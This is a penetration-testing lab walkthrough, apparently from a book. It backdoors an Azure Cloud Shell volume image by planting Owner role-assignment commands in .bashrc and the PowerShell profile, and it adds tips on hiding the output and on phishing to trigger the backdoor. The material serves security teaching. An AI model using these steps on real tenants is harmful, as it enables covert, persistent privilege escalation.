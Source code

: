 


### Hands-on exercise – Backdooring Azure Cloud Shell
In this exercise, we will exploit a Cloud Shell volume image to run sensitive commands with the permissions of a privileged user when they use Cloud Shell. This will ensure privilege access persistence. The process that we will cover will follow a four-step process. 
* First, we will download the Cloud Shell volume image of a higher privileged user
* We will mount the image on the Linux VM that we deployed earlier
* We will plant commands that we want to run
* We will re-upload back into the Cloud Shell file share

1. Open a PowerShell console on your pentest VM. SSH into the Linux VM that you used in the previous exercise **`LAB07`**. Enter the password when prompted.
```
ssh linuxadmin@linuxvm-xxxxxxxxxxxxxxxxxxxxxx
```

2. In the Bash shell of the pentest Linux VM, use the following command to switch to the root user:
```
sudo su –
```

3. Authenticate to Azure CLI using the following command. Replace the **`AVA_USERNAME`** and **`AVA_PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file:
```
az login --username "AVA_USERNAME" --password "AVA_PASSWORD"
```

4. Run lava.py to start the Lava tool:
```
cd lava/
python3 lava.py
```

5. Verify the current user and permissions using the following command:
```
exec priv_show
```

6. Scan the file shares in the Azure subscription for potential Cloud Shell images. You can do this using the following Lava command:
```
exec stg_file_scan
```

7. The previous command takes advantage of access to the access keys to scan the file shares in an Azure subscription. You can see that we have a file share that is used by Azure Cloud Shell:

8. Download the files in the Azure file shares using the following command. Running the preceding command in an environment that has multiple file shares can take a long time to complete:
```
exec stg_file_download
```

9. This will download the file into a temporary directory on the pentest Linux VM. Make a note of the download location where it says **`files will be saved to.....`**:

10. After the download has been completed, exit Lava using the exit command:
```
exit
```

11. Back in the Bash shell, mount the downloaded image file using the following command. Replace **`<download_location>`** with the download path that you made a note of in step 9 of this exercise:
```
mount <download_location>/.cloudconsole/acc_admin.img /mnt
```

12. Explore the mounted drive by typing the following command and pressing Tab:
```
ls /mnt/
```

13. You should see an output of persistent files and data from the Cloud Shell user's previous sessions. This includes sensitive information, such as the user's shell context information.

14. Change directories to the mounted drive and enter the following command to append a malicious command to the .bashrc file, to escalate the privileges of our current Contributor user:
```
cd /mnt
echo "az role assignment create --role "Owner" --assignee $(az ad user list --display-name ava.brown | jq '.[]' | jq -r '.userPrincipalName')" >> .bashrc
```

15. **`bashrc`** is a Bash shell script that runs whenever a shell session is started interactively. The preceding command will ensure that the next time the target privileged user opens a Cloud Shell session, the command to escalate the privilege of the Ava from **`contributor`** access to **`owner`** access will be executed. 

16. To do the same thing for a PowerShell session, we will need to first create two directories in the user's home directory. This is where the PowerShell profile will live. If you get an error message about the existence of the directories, you can ignore that and move on to the next step:
```
mkdir .config
mkdir .config/PowerShell
```

17. Similar to what we did for the .bashrc file, we will make the contributoruser an owner on the subscription by adding the following command to the PowerShell profile:
```
echo "New-AzRoleAssignment -UserPrincipalName (Get-AzADUser -StartsWith ava).UserPrincipalName -RoleDefinitionName Owner" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
```

18. Unmount the drive from your session with the following command:
```
cd ..
umount /mnt
```

19. Now let's upload the drive back to the storage account and overwrite the existing version. First, we will obtain the name of the storage account and store it in a variable. Replace **`<storage_acct_name>`** with the name of the storage account that the original Cloud Shell files were downloaded from (starts with a prefix of **`cs`**):
```
az storage account list --query [].name -o tsv
storagename=<storage_acct_name>
```

20. Obtain the access key and file share and upload the image back into it using the following commands. Replace **`<download_location>`** with the location that you made a note of in **`Step 9`** of this exercise:
```
key=$(az storage account keys list -n $storagename --query [0].value -o tsv)

csfileshare=$(az storage share list --account-key $key --account-name $storagename --query [].name -o tsv)

az storage file upload --account-key $key --account-name $storagename --share-name $csfileshare --path ".cloudconsole/acc_admin.img" --source "<download_location>/.cloudconsole/acc_admin.img"
```

21. The upload process will begin after this. This will overwrite the existing file in the share. 

22. Finally, we will need to trigger the attack by opening a Cloud Shell instance as the **`admin`** user account. To do this, we will log in as the **`admin`** account and open Cloud Shell in the portal. We can see in the following screenshot that our commands were executed in the Cloud Shell instance, and Ava's account is now an owner on the subscription:

23. As an attacker, we may want to be a little stealthier about our actions in this scenario. To suppress the message we see in the preceding screenshot, you can use the **`| out-null`** function at the end of the PowerShell command to redirect the output. Alternatively, we can use **`&>/dev/null`** at the end of the Bash shell attack. This will prevent the command execution from showing up in your admin's Cloud Shell output.

24. In a practical attack scenario, it may take a while for a victim Cloud Shell account to open a new session. To expedite this process, you could send a phishing email that links to https://shell.azure.com/. Not only will the link look legitimate, but it will start up a Cloud Shell session as soon as the site is loaded.

25. Now let's verify that we have indeed escalated our privileges to the Owner role. We can run the priv_show command in Lava to verify this:
```
cd ~/lava
python3 lava.py
exec priv_show
```

26. You should be able to see that the user is now assigned to the OWNER role due to a successful privilege escalation attack. This also ensures that if the permission was removed from the user, it will be re-added the next time the user opens a Cloud Shell session - essentially giving us persistence.
